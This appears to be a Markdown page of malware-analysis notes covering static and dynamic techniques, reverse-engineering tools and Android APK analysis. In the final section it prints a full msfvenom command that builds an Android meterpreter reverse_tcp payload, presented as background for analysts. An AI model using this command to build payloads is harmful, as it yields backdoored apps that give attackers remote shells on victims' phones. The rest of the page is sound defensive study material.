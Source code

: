 Malware analysis techniques generally fall into two categories:

*   **Static Analysis:** Examining the malware without actually executing it.
    *   **Goal:** Understand the code, structure, and potential capabilities by looking at strings, headers, metadata, imported functions, and disassembled/decompiled code.
    *   **Pros:** Safer (malware isn't running), can reveal functionality hidden from dynamic analysis (e.g., anti-VM code).
    *   **Cons:** Can be time-consuming, obfuscated/packed code can hinder analysis, doesn't show actual runtime behavior.
*   **Dynamic Analysis:** Executing the malware in a controlled environment (sandbox) to observe its behavior.
    *   **Goal:** See what the malware *does* - files it creates/modifies, registry changes, network connections, processes it launches.
    *   **Pros:** Reveals actual behavior, can be faster for understanding high-level actions, good for extracting IOCs.
    *   **Cons:** Risky if sandbox isn't properly isolated, malware might not exhibit all behaviors (sandbox evasion, specific triggers needed), some actions might be missed.

## Common Malware Analysis Tools & Environments

*   **Basic Static Tools:**
    *   `strings`: Extracts printable character sequences from files (useful for finding URLs, IPs, filenames, commands).
    *   File identification tools (`file` on Linux, PE viewers like PEStudio on Windows): Identify file type, architecture, packer info.
*   **Advanced Static Analysis / Reverse Engineering Tools:**
    *   **Disassemblers/Decompilers:**
        *   **Ghidra:** Free, powerful, multi-platform reverse engineering suite developed by the NSA.
        *   **IDA Pro:** Industry standard, very powerful disassembler and debugger (commercial).
        *   **radare2 / Cutter:** Open-source reverse engineering framework.
        *   **JADX-GUI:** Popular decompiler specifically for Android APK files.
*   **Dynamic Analysis Tools:**
    *   **Sandboxes:** (Covered above: Any.Run, Hybrid Analysis, Cuckoo, etc.)
    *   **Debuggers:** OllyDbg, x64dbg (Windows), GDB (Linux) - Allow step-by-step code execution and inspection of memory/registers.
    *   **Monitoring Tools:** Process Monitor (ProcMon), Process Explorer, RegShot, Wireshark - Used within a sandbox or carefully on a live system to track file system, registry, process, and network activity.
    *   **Dynamic Instrumentation:**
        *   **Frida:** Powerful toolkit to inject scripts into running processes to hook functions, intercept data, and modify behavior on the fly.
*   **Specialized Analysis Environments (VMs):**
    *   **Flare VM:** A Windows-based virtual machine distribution from Mandiant, pre-loaded with a wide array of analysis tools.
    *   **REMnux:** A Linux-based toolkit and distribution focused on malware analysis and reverse engineering.

## Notes on Android Malware (APK Files)

*   **Structure:** APK files are essentially ZIP archives containing application code (DEX files), resources, manifest file (permissions, components), etc.
*   **Analysis:** Often involves using tools like `JADX-GUI` to decompile DEX files back into Java-like code for static analysis. Dynamic analysis can be done using emulators or physical devices with tools like Frida.
*   **Creation Context (for understanding):** Tools like `msfvenom` (part of Metasploit Framework) can generate malicious APK payloads (e.g., `msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -o malicious.apk`). Understanding how they are created helps in identifying their components during analysis. Modified or created APKs often need to be re-signed using tools like `jarsigner` to be installable.

